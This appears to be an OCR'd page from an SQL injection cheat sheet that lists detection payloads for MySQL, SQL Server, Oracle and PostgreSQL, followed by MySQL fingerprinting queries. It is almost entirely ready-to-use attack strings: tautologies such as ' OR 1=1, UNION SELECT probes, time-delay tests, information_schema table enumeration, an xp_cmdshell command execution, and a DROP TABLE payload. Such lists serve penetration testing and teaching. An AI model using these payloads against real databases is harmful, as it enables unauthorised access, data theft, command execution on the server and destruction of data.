 ### Identification Techniques

#### 1. Error-Based Detection
```sql
-- Test for SQL injection by breaking syntax
'
"
`
;
'--
"--
';--
";--

-- MySQL specific
' OR 1=1#
' OR 1=1-- 
' UNION SELECT null#

-- SQL Server specific  
' OR 1=1--
'; EXEC xp_cmdshell('dir')--

-- Oracle specific
' OR 1=1--
' UNION SELECT null FROM dual--

-- PostgreSQL specific
' OR 1=1--
'; DROP TABLE test;--
```

#### 2. Boolean-Based Detection
```sql
-- True condition (should return data)
1' AND '1'='1

-- False condition (should return no data)  
1' AND '1'='2

-- Time-based detection
1'; WAITFOR DELAY '00:00:05'--  # SQL Server
1' AND SLEEP(5)--               # MySQL
1' AND pg_sleep(5)--            # PostgreSQL
```

### Database Fingerprinting

#### MySQL
```sql
-- Version detection
' AND @@version LIKE '5%'--
' UNION SELECT @@version,null--

-- Database name
' UNION SELECT database(),null--

-- User information
' UNION SELECT user(),current_user()--

-- Table enumeration
' UNION SELECT table_name,null FROM information_schema.tables--
```
